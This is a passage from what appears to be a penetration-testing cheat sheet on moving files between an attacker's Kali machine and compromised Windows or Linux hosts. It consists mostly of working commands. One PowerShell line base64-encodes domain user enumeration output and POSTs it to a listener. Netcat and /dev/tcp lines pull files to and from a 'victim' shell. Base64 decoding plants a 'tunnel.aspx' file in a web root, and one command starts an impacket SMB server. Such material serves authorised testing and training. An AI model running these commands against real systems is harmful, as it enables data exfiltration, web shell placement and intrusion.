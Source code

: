 Local string to base64 and POST:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > Invoke-RestMethod -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```



### Linux2Linux


#### /dev/tcp

```
# Sender:
root@kali:$ nc -w3 -lvnp 1234 < file.txt
# Recipient:
www-data@victim:$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > /tmp/.file'

# Recipient:
root@kali:$ nc -w3 -lvnp 1234 > file.txt
# Sender:
www-data@victim:$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```



### Linux2Windows

* [blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)


#### Base64

Full base64 file transfer from Linux to Windows:

```
root@kali:$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```


#### SMB

##### impacket-smbserver

SMB server (communicate with Windows **[1]**):

```
root@kali:$ impacket-smbserver -smb2support files `pwd`
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)